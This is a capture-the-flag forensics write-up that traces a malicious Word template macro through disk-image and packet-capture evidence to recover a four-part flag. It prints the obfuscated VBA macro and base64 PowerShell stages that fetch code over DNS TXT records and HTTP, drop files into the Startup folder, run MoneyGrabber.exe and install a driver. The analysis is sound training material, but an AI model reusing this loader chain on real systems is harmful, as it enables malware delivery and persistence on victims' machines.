

# Meet My Computer Wife Karen

> Mr. Krabs has noticed some weird pop-ups on his computer recently, and he wants you to take a look. He's particularly worried because Plankton hasn't tried to steal the Krabby patty secret formula for a while. Has he found another way in?
> 
> https://storage.googleapis.com/chal-static/forensics/umass-ctf-forensics.zip

Solution:

The ZIP archive contains two files:
- `capture.pcapng`
- `image.ad1`

Decided to examine the image file, `image.ad1` using FTK imager.


Checked:
- Downloads
- Desktop
- Documents
- Start Menu
- Pictures

But couldn't find anything malicious.

Thought of malicious macros so went to `AppData/Roaming/Microsoft/Templates/`...


And there's a `Normal.dotm`, which is the default template used by Microsoft Word to determine the basic formatting of a document.

Let's run `oleid` against it...


Bingo! Let's check using `olevba`...



That's definitely malicious!

```vb
Function dgfbhsrjtyghsfgbn(betrhyhzdfgbvfadgh() As Byte, tgdrhnatrhathgdf As Long) As Boolean
    Dim drtgvhsrtghgfhng As Byte
    drtgvhsrtghgfhng = 127
    For i = 0 To tgdrhnatrhathgdf - 1
        betrhyhzdfgbvfadgh(i) = betrhyhzdfgbvfadgh(i) Xor drtgvhsrtghgfhng
        drtgvhsrtghgfhng = ((drtgvhsrtghgfhng + 5) Xor 105)
    Next i
    drtgvhsrtghgfhng = True
End Function

Function flagpart()
    Dim bnirujwtnbiwrbn(12) As Byte
    bnirujwtnbiwrbn(0) = 42
    bnirujwtnbiwrbn(1) = 160
    bnirujwtnbiwrbn(2) = 218
    bnirujwtnbiwrbn(3) = 154
    bnirujwtnbiwrbn(4) = 244
    bnirujwtnbiwrbn(5) = 190
    bnirujwtnbiwrbn(6) = 212
    bnirujwtnbiwrbn(7) = 137
    bnirujwtnbiwrbn(8) = 152
    bnirujwtnbiwrbn(9) = 130
    bnirujwtnbiwrbn(10) = 186
    bnirujwtnbiwrbn(11) = 138
    flagpart = dgfbhsrjtyghsfgbn(bnirujwtnbiwrbn(), 12)
End Function


Sub formuoli()
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run ("powershell.exe IEX([Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('JGI2NCA9ICIiDQoNCmZvciAoJGk9MTskaSAtbGUgNzskaSsrKSB7DQogICAgJHRlbXAgPSAobnNsb29rdXAgLXE9dHh0IC10aW1lb3V0PTMgJGknLmFtZXJpY2FudmVndGFibGVzLmNvbScpWy0xXSAtcmVwbGFjZSAnIicsJycgLXJlcGxhY2UgJ1xzJywnJw0KICAgICRiNjQgKz0gJHRlbXANCn07DQoNCiMgX2QwY01fNTdpTExfDQoNCmlleChbU3lzdGVtLlRleHQuRW5jb2RpbmddOjpBU0NJSS5HZXRTdHJpbmcoW1N5c3RlbS5Db252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygoJGI2NCkpKSk=')))")
End Sub
```

From the looks of it, `bnirujwtnbiwrbn` of `flagpart()` has encrypted bytes and is being decrypted by `dgfbhsrjtyghsfgbn(betrhyhzdfgbvfadgh() As Byte, tgdrhnatrhathgdf As Long)`. 

`betrhyhzdfgbvfadgh(i)` holds the decrypted byte, which can be turned into a readable text using `chr()`.

Decided to declare a string to concatenate the decrypted text and print it.


Cool! Got the first part of the flag which is `UMASS{wH7_1s`...I wonder how many flags are there 🤔

Moving forward, we a base64 encoded payload being loaded using PowerShell. Let's decode using CyberChef...


Nice! There's the second flag: `_d0cM_57iLL_`

From the looks of it, it retrieves the TXT record from a subdomain 1 to 7 `.americanvegtables.com`. So I think it's time to check the `capture.pcapng`.

Filtered for `dns.txt` packets aaandd...


Nice! Let's combine those and decode again using CyberChef...

```
JGRvd25sb2FkVVJMID0gIjE5Mi4xNjguMTU3LjE0NTo4MDgwL21vbmV5LnBuZyIKJGNvbnRlbnQgPSBJbnZva2UtV2ViUmVxdWVzdCAkZG93bmxvYWRVUkwKCiRyZSA9IE5ldy1PYmplY3QgU3lzdGVtLlRleHQuUmVndWxhckV4cHJlc3Npb25zLlJlZ2V4KCJjNGZjMzRmNDUzODZkNGM5OGUyNiIpCiRzdHVmZiA9IFtyZWdleF06OlNwbGl0KCRjb250ZW50LCAkcmUpWzFdCiR6aXAgPSBbU3lzdGVtLkNvbnZlcnRdOjpGcm9tQmFzZTY0U3RyaW5nKCRzdHVmZikKClNldC1Db250ZW50ICJDOlxQcm9ncmFtRGF0YVxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0VXBcc3R1ZmYuemlwIiAtVmFsdWUgJHppcCAtRW5jb2RpbmcgQnl0ZQoKRXhwYW5kLUFyY2hpdmUgLVBhdGggIkM6XFByb2dyYW1EYXRhXE1pY3Jvc29mdFxXaW5kb3dzXFN0YXJ0IE1lbnVcUHJvZ3JhbXNcU3RhcnRVcFxzdHVmZi56aXAiIC1EZXN0aW5hdGlvblBhdGggIkM6XFByb2dyYW1EYXRhXE1pY3Jvc29mdFxXaW5kb3dzXFN0YXJ0IE1lbnVcUHJvZ3JhbXNcU3RhcnRVcFwiCgpSZW1vdmUtSXRlbSAiQzpcUHJvZ3JhbURhdGFcTWljcm9zb2Z0XFdpbmRvd3NcU3RhcnQgTWVudVxQcm9ncmFtc1xTdGFydFVwXHN0dWZmLnppcCIKClN0YXJ0LVByb2Nlc3MgIkM6XFByb2dyYW1EYXRhXE1pY3Jvc29mdFxXaW5kb3dzXFN0YXJ0IE1lbnVcUHJvZ3JhbXNcU3RhcnRVcFxNb25leUdyYWJiZXIuZXhlIiAtTm9OZXdXaW5kb3cKCnBucHV0aWwuZXhlIC9hZGQtZHJpdmVyICJDOlxQcm9ncmFtRGF0YVxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0VXBcbXlEcml2ZXIuaW5mIiAvaW5zdGFsbAoKc2MuZXhlIHN0YXJ0IG15RHJpdmVyCgpSZW1vdmUtSXRlbSAiQzpcUHJvZ3JhbURhdGFcTWljcm9zb2Z0XFdpbmRvd3NcU3RhcnQgTWVudVxQcm9ncmFtc1xTdGFydFVwXG15RHJpdmVyLioiCgojIFdyaXRlLU91dHB1dCAiNF90SDFuR18i
```


There's the third flag! `4_tH1nG_`

Based on the decoded PowerShell script, it retrieves an image from `192.168.157.145` named `money.png`. Then it looks for a separator `c4fc34f45386d4c98e26` and base64 decodes the rest of the string after it. Let's filter for packets: `http && ip.addr == 192.168.157.145`.


There we go. Decode again with CyberChef...

```
UEsDBAoAAAAAAFNfk1io6KHIEwAAABMAAAAJAAAAZmxhZzQudHh0MW5fdGgzX3kzNHJfMjAyND8/
fVBLAwQUAAAACAC7fZJYeD6S50o6AgAAxAUAEAAAAE1vbmV5R3JhYmJlci5leGXsXX98FNUR383d
hQMT9oJBgiAcemqiiImCJpVILt7FPdwLofIjKkIwGLGiBLwgKoXQCzWb5Vps0drWVtva1ra2pVYl
UKqXBJKAvwK2ClIr/t7zRIMihF9evzNvLz8IVFvb/tV85Hb3vdl58+bNm5k3b94avHapJEuSZJf6
/hVJn/+3FP8Gj944WHpi4PNjGmXt+THT5t98u7t68cKbFs+91V0597bbFobcN9zoXlxzm/vm29y+
KVe7b10478ZxHkkq80vSvG8OkKqXjqlK4uuUzpROSRksSV8DNTNkLqs4Bz+uJEXWfYokpfJDz1Vy
p3Z3wiZVrMRF7oa3bnou3bc9/a11SHa5V8Eeh/TciF7PrlRpD13XOaSRJ+BF+VUOKfsE5dV1KLed
nIfjQjcuDeH61Hw7EUR97zcYbrBh3OJ5c0NzJWnaWBBZa8eLuN7WF7AI/427oebmBfNunneFoJV5
JT3o6A/H6IAqCz9Rh2Dkj/vBRcdVC8DnRgiecOcfOQG+0ILb6T4rOSopjLc/vsU3LlhYCVTMUwuu
uR9csfT/v//J33Q1/IGqRhZ4ilQ9KKn69C7V8OPqN9Vwl6SsopG5SdlQdBqKTeUpSffvx10XAPb0
B9jTINX7X7EQ7Oxfv7Mh+Eq90/Dvr/e3WVja+0O1NwTb6p1qeLN6fcua6erKDx5GpRp5zFOLK6jM
ApUu1Qhmma9X2kFQWpvfSV1p8/N0WPl1O019JXIvHrTKoN1X317vP6gZfpemN2nyVqDoCq6KKvdF
1VVblfua3R2Py1pOk1f5blT5TlNw1Va/8lRUeWqrVwm0u7e72x+Ve+g7lcjuT3JXQ/AgdcyeiOr+
TmVNdHyC3rILEMnwd+p+e+yGRCLR5pcEkZIg0pciodqp+98mAkGu1E2k+WWIPH74DP/bYBlGcKDc
jrHrRyJeycJwdBhBSQ/uNKan6dP/Fj4sof2Vh0hNKPc1hQ8nQIjzuMZsmkFv/Q2j+/2Dh7TKbd30
-snip-
```


It's a PKZIP archive and we can immediately see the 4th flag! `1n_th3_y34r_2024??}`

So the full flag is: `UMASS{wH7_1s_d0cM_57iLL_4_tH1nG_1n_th3_y34r_2024??}`